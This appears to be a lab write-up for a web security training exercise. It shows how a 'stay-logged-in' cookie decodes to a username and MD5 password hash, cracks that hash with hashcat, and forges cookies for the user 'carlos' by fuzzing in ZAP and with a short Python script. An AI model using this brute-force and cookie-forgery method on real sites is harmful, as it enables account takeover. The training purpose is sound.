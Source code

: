 #web #webexploitation #webpenetrationtest #zaproxy 

"normal" login (without selecting "stay logged in" checkbox)

username: `wiener`
password: `peter`

![](_attachment/Pasted%20image%2020250117123636.png)

![](_attachment/Pasted%20image%2020250117123719.png)

```http
POST https://0ae1009b0345b1ad84f77c4700460088.web-security-academy.net/login HTTP/1.1  
host: 0ae1009b0345b1ad84f77c4700460088.web-security-academy.net  
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8  
Accept-Language: en-US,en;q=0.5  
Referer: https://0ae1009b0345b1ad84f77c4700460088.web-security-academy.net/login  
Content-Type: application/x-www-form-urlencoded  
Content-Length: 30  
Origin: https://0ae1009b0345b1ad84f77c4700460088.web-security-academy.net  
Connection: keep-alive  
Cookie: session=ZvCSkk26OqMnYNDQZiqMdhkQW0zN2si1  
Upgrade-Insecure-Requests: 1  
Sec-Fetch-Dest: document  
Sec-Fetch-Mode: navigate  
Sec-Fetch-Site: same-origin  
Sec-Fetch-User: ?1

username=wiener&password=peter
```

response:

```http
HTTP/1.1 302 Found  
Location: /my-account?id=wiener  
Set-Cookie: session=nFrWlPsdJSmLqhnYyr2kLdL6xNmplsz2; Secure; HttpOnly; SameSite=None  
X-Frame-Options: SAMEORIGIN  
Connection: close  
Content-Length: 0
```

with "stay logged in":

![](_attachment/Pasted%20image%2020250117124028.png)

```http
POST https://0ae1009b0345b1ad84f77c4700460088.web-security-academy.net/login HTTP/1.1  
host: 0ae1009b0345b1ad84f77c4700460088.web-security-academy.net  
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8  
Accept-Language: en-US,en;q=0.5  
Referer: https://0ae1009b0345b1ad84f77c4700460088.web-security-academy.net/login  
Content-Type: application/x-www-form-urlencoded  
Content-Length: 48  
Origin: https://0ae1009b0345b1ad84f77c4700460088.web-security-academy.net  
Connection: keep-alive  
Cookie: session=9YM5gZ9Q1CSnlDciMgg46UcP178WsxxA  
Upgrade-Insecure-Requests: 1  
Sec-Fetch-Dest: document  
Sec-Fetch-Mode: navigate  
Sec-Fetch-Site: same-origin  
Sec-Fetch-User: ?1

username=wiener&password=peter&stay-logged-in=on
```

response:

```http
HTTP/1.1 302 Found  
Location: /my-account?id=wiener  
Set-Cookie: stay-logged-in=d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw; Expires=Wed, 01 Jan 3000 01:00:00 UTC  
Set-Cookie: session=tuo7amuGhx6Rhl2UFW96fKj2OK8QLpJP; Secure; HttpOnly; SameSite=None  
X-Frame-Options: SAMEORIGIN  
Connection: close  
Content-Length: 0
```

access to wiener's page:

```http
GET https://0ae1009b0345b1ad84f77c4700460088.web-security-academy.net/my-account?id=wiener HTTP/1.1  
host: 0ae1009b0345b1ad84f77c4700460088.web-security-academy.net  
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8  
Accept-Language: en-US,en;q=0.5  
Referer: https://0ae1009b0345b1ad84f77c4700460088.web-security-academy.net/login  
Connection: keep-alive  
Cookie: session=tuo7amuGhx6Rhl2UFW96fKj2OK8QLpJP; stay-logged-in=d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw  
Upgrade-Insecure-Requests: 1  
Sec-Fetch-Dest: document  
Sec-Fetch-Mode: navigate  
Sec-Fetch-Site: same-origin  
Sec-Fetch-User: ?1
```

We notice this cookie value: `d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw`

Let's try if we can base64-decode it:

```bash
joshua@kaligra:~$ echo -n "d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw" | base64 -d
wiener:51dc30ddc473d43a6011e9ebba6ca770
```

Cool!

Let's try to crack the second half (which looks like an MD5 hash):

```bash
$ hashcat -m0 51dc30ddc473d43a6011e9ebba6ca770 /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting

..
..
Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

51dc30ddc473d43a6011e9ebba6ca770:peter
..
..


Started: Fri Jan 17 19:32:31 2025
Stopped: Fri Jan 17 19:32:49 2025

```



So far, the "formula" for password seems to be:

`base64(cleartextusername+":"+md5sum(password))`  

We can use the candidate passwords list file and use Zaproxy's **processor**

Pick a request to `/my-account/id=wiener` and strip the `wiener` part

![](_attachment/Pasted%20image%2020250117195047.png)

**remember: we need to STRIP the session= cookie value!** 

Right click on selected text (`stay-logged-in` cookie value) and select Fuzz:

## first step

select "Strings" and copy/paste candidate list:

![](_attachment/Pasted%20image%2020250117195822.png)

## second step

add MD5 hash

![](_attachment/Pasted%20image%2020250117195847.png)

![](_attachment/Pasted%20image%2020250117195901.png)

## third step

add prefix (`carlos:`)

![](_attachment/Pasted%20image%2020250117195929.png)

## fourth step

base64 encoding:

![](_attachment/Pasted%20image%2020250117195956.png)

## start attack!

![](_attachment/Pasted%20image%2020250117200337.png)

We will found a `200 OK` response, that means we solved the lab :)

## python script to populate cookie list


```python
#!/usr/bin/python3

import base64
import hashlib

f = open("passwords.txt")
for l in f:
    bb = hashlib.md5(bytes(l.rstrip().encode())).hexdigest()
    fs = ("carlos"+str(":")+bb)
    print(base64.b64encode(fs.encode()).decode('ascii'))
```






